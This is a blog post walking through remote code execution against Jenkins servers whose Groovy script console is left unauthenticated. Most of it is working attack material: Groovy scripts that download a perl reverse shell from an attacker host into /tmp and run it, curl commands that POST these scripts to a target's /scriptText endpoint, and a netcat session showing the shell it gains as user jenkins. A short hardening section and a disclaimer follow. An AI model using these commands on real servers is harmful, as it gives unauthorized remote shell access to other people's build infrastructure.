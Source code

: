 ```yaml
---
layout: blog_item
title:  "Jenkins RCE via Unauthenticated API"
date:   2024-04-18 10:08:10
author: Dhruv Ambaliya
description: 'Jenkins RCE via Unauthenticated API, an attacker can execute shell commands via curl requests against the Jenkins API script console'
categories: [Exploit]
tags:
- Jenkins
- Exploit
- RCE
- 'Pen-Testing'
---
```


* list element with functor item                                                
 {:toc}

## Description:

[Jenkins](https://jenkins-ci.org/) (continuous intergration server) default install allows for unauthenticated access to the API on the Jenkins Master Server (default behavour). Allowing unauthenticated access to the groovy script console, allowing an attacker to execute shell commands and / or connect back with a reverse shell.

<div class="note warning">
  <h5>DISCLAIMER</h5>
  <p>Disclaimer, I didn't discover this exploit, it has been discovered before... This vulnerability has been disclosed before to the Jenkins CI developers, who do <b>not consider it a vulnerability</b>.</p>
</div>


![Jenkins RCE API Exploit](https://i.imgur.com/lTas7UD.gif)

## Tested Versions

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Software</th>
      <th>Version</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>Jenkins</code></p>
      </td>
      <td>
            <p>Ver 1.626</p>
      </td>
       </tr>
      <tr>
      <td>
        <p><code>Jenkins</code></p>
      </td>
      <td>
            <p>Ver 1.638</p>
      </td>
      </tr>

      </tbody>
</table>
</div>

## Tested Operating Systems

An effort to test all affected OS's, showing the severity of the exploit (e.g. jenkins shell) for the default OS packaged version.

<div>
<table>
  <thead>
    <tr>
      <th>Operating System</th>
      <th>Default Package Expoit</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>CentOS 6 - Jenkins RPM via Jenkins YUM Repo</code></p>
      </td>
      <td>
            <p>shell as user jenkins</p>
      </td>
      </tr>
      </tbody>
</table>
</div>

## Instructions

This is really basic, I made a few small groovy scripts to execute the shell commands I wanted via Jenkins API (I recall having some issues runing more than one command at a time via groovy), I then executed them using Curl.

### groovy script wget shell

Script to wget perl reverse shell to target and copy it to /tmp/shell.

{% highlight java %}
   def command = "wget http://192.168.145.128/perl-reverse-shell.pl -O /tmp/shell"
   def proc = command.execute()
   proc.waitFor()

   println "Process exit code: ${proc.exitValue()}"
   println "Std Err: ${proc.err.text}"
   println "Std Out: ${proc.in.text}"
{% endhighlight %}

<div class="note tip">
  <h5>Jenkins requires /tmp to have exec perms</h5>
  <p>By default Jenkins requires <code>/tmp</code> to have the execute mount option set, so you should be safe to land shells there on Jenkins servers.</p>
</div>


### groovy script execute shell command

{% highlight java %}
    def command = "perl /tmp/shell"
    def proc = command.execute()
    proc.waitFor()              

    println "Process exit code: ${proc.exitValue()}"
    println "Std Err: ${proc.err.text}"
    println "Std Out: ${proc.in.text}"
{% endhighlight %}

### Execute the Groovy Scripts via scriptText Jenkins API

{% highlight bash %}
curl -d "script=$(<./wget.groovy)" -X POST http://192.168.30.130:8080/scriptText
curl --data-urlencode  "script=$(<./execute.groovy)" -X POST http://192.168.30.130:8080/scriptText
{% endhighlight %}

### Get Shell

{% highlight bash %}
    [root:~/pwn-jenkins]# nc -v -n -l -p 443
    listening on [any] 443 ...
    connect to [192.168.30.128] from (UNKNOWN) [192.168.30.130] 42340
     21:16:17 up 15:17,  1 user,  load average: 0.23, 0.31, 0.17
     USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
     root     tty1     -                05:59    3:40   0.12s  0.12s -bash
     Linux localhost.localdomain 2.6.32-573.3.1.el6.x86_64 #1 SMP Thu Aug 13 22:55:16 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     /
     apache: cannot set terminal process group (-1): Invalid argument
     apache: no job control in this shell
     apache-4.1$ whoami
     whoami
     jenkins
     apache-4.1$ id
     id
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     apache-4.1$
{% endhighlight %}

<div class="note info">
  <h5>Jenkins Does Not Consider this a Vulnerability</h5>
  <p>Dispite the fact the web application is insecure by default (the default
  install leaves the API and webapp exposed without authentication), Jenkins do
  not consider this a vulnerability. Your best option is to configure
  authentication by following the <a href="https://wiki.jenkins-ci.org/display/JENKINS/Standard+Security+Setup">Securing Jenkinsi Guide</a></p>
</div>

## More info about Jenkins

Jenkins is a tool consisting of a master and a slave, the master server
schedules and runs jobs for the jenkins slaves to execute. The default
installation configures the master as a slave server, allowing anyone with access to the Jenkins master
to execute arbitrary code on the master (via the slave).

A more secure solution would be isolating the role of the master server.
Currently if a Jenkins master server is compromised, it's likely an attacker
will also be able to execute jobs / run shell scripts on the Jenkins slaves.

An additional ACL option within Matrix-based security to disable API, and
another for script
console / execution on the Jenkins Master would be a good idea. Currently the
only options is to disable all script access for the user/group, which appears to include the
slaves.

Be mindful of the fact that, by giving access to the slaves via the Jenkins Master,
you're essentially giving the user shell level access to the slave (or at least
the ability to execute shell commands on the slave machine).

## More Resources

More links about this vuln and similar Jenkins vulns below:

* [http://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console](http://leonjza.github.io/blog/2015/05/26/jenkins-to-meterpreter-toying-with-powersploit/)
